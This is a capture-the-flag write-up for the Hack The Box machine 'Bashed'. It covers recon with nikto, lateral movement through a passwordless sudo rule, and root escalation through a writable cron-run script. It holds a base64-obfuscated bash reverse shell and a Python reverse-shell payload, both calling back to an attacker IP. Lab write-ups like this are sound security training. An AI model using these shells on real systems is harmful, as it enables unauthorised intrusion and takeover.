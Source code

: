 +++ 
title = "Bashed HTB Write up"
description = "Write up for the HTB machine 'Bashed'"
author = "greatmoves"
tags = ["php", "sudo -l", "python", "nikto", "cronjob", "hackthebox"]
+++

## Recon
----
### Nikto
cmd: `nikto -host 10.10.10.68`

Our nikto scan reveals to us a number of files and directoires
- /config.php
- /css/
- /dev/
- /php/
- /images/
- /icons/

The path `/dev/phpbash.php` seems to be a remote shell

So let's use this to get a reverse shell by running the following command along with a netcat listener

`echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAueC54LzQ0NDQgMD4mMQ==" | base64 -d | bash`

Once we have our reverse shell let's start with obtaining a fully interactive shell by running `python -c 'import pty;pty.spawn("/bin/bash");'` and then `sudo -l` where we get the following output:

```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

This means we don't need a password to move from our user `www-data` to the user `scriptmanager`, so we simply run `sudo -u scriptmanager /bin/bash` 

`/home/arrexel` is where we can find `user.txt`

## Privilege escalation
----
Through further enumeration of the file system we can see that there is a `/scripts/` folder in the root of the file system.

Simply running `ls -la` we can see that `test.py` is owned by our user, `scriptmanager`, and `test.txt` is owned by the root user.

Therefore we could assume that the script `test.py` is being run by the root user (perhaps through a cronjob, or some sort of other automation), and since `test.py` is owned by our user, we have permissions to edit it.

So, let's replace `test.py` with a python script for a reverse shell. We can do this by using `echo '{python code here}' > test.py` when in the `/scripts/` directory.

```py
#!/usr/bin/python3
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.x.x",4445));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Spin up your netcat listener on the same port that is in your script and wait until `test.py` is run to catch your reverse shell as root.

Finally, navigate to `/root/` for `root.txt`
